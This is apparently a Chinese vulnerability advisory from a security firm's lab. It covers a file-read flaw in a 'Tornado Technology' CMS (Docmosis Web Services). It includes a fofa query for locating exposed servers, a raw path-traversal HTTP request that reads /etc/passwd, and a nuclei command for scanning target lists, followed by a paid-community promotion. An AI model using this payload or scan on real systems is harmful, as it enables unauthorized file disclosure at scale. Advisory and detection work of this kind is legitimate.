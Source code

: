 #  漏洞预警 龙卷风科技 cms 存在文件读取漏洞   
by 融云安全-sm  融云攻防实验室   2024-04-10 17:19  
  
**0x01 阅读须知**  
  
**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
  
**0x02 漏洞描述**  
  
龙卷风科技 cms 存在文件读取漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zicMTiamkMrhOh3fdKe7IdaPQ7cpLqAP7oZnAtvFL3KvUJuBEqTdj0XNsDjRic96IMA8NqTHrWNLicaw/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞复现**  
  
**fofa-qeury: body="Welcome to Docmosis Web Services"**  
  
1.执行poc进行文件读取，得到结果  
```
GET /api/../fetch?filename=/../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zicMTiamkMrhOh3fdKe7IdaP4Vojp7ZuKicJiaUoYbcgArM33dYenmarhdGBIJXibCCiaLlFhRHCeuxsBg/640?wx_fmt=png&from=appmsg "")  
  
2.nuclei验证脚本已发布于知识星球  
```
nuclei.exe -t docmosis-tornado-filename-fileread.yaml -l subs.txt -stats
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zicMTiamkMrhOh3fdKe7IdaPORWH4OYQibia1qpNRiarlFILhauxibAV74yfjyDZ4CtibhGQtO1qz61rIMQ/640?wx_fmt=png&from=appmsg "")  
  
**加入星球请扫描下方二维码，更多精，敬请期待！**  
  
👇👇👇  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/GWXBjgPE49zs4eNkNzwGvylxKjRnH2aibQqdbEUPicwHRpyuIhk7YdcECWw9kZGCibot3aRDzS4ADTmywx57c7QBw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
**星球亮点：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49zJVmxnyrPS6eYl72VUnO7CnUIib81TpIUo8d7yXTVoplv60EVgpqfoI9CLwDeb8SPU7qcOZQahorg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
  
**0x04 公司简介**  
  
江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......  
  
**编制：sm**  
  
**审核：fjh**  
  
**审核：Dog**  
  
****  
**1个1朵********5毛钱**  
  
**天天搬砖的小M**  
  
**能不能吃顿好的**  
  
**就看你们的啦**  
  
****  
  
